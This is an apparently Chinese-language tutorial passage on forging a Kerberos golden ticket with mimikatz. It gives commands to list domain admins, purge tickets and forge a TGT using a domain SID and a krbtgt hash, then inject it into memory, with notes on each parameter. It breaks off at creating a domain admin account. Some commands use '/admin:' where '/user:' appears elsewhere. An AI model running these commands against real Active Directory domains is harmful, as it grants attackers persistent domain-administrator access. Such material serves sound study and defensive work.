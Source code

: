 这里没有再去配置环境，直接用了网上的图

```javascript
net group "domain admins" /admin  //查看域管理员
```

#### 伪造TGT

```javascript
klist purge			//清除所有票据
kerberos::purge 	//清除票据
kerberos::tgt     //查看票据
```

2、使用mimikatz伪造指定用户的票据并注入到内存

```javascript
kerberos::golden  /admin:administrator  /domain:zz.com  /sid:S-1-5-21-1373374443-4003574425-2823219550  /krbtgt:9f3af6256e86408cb31169871fb36e60  /ptt
```

/admin：需要伪装的域管理员用户

/domain：域名称

/sid：域SID值

/krbtgt：krbtgt的Hash值

/ptt：注入内存

/ticket：生成的票据名称

如下命令就说生成一个票据ticket.kirbi文件

```
kerberos::golden /user:administrator /domain:hacke.testlab /sid:S-1-5-21-954094320-202977030-1482179831 /krbtgt:ac923e1d7f56e0adf967356b8d41953e /ticket:ticket.kirbi
```

再通过`kerberos::ptt ticket.kirbi`导入

执行命令的时候用如下命令

![image-20230222184229643](images/2.png)

创建一个的域管账号

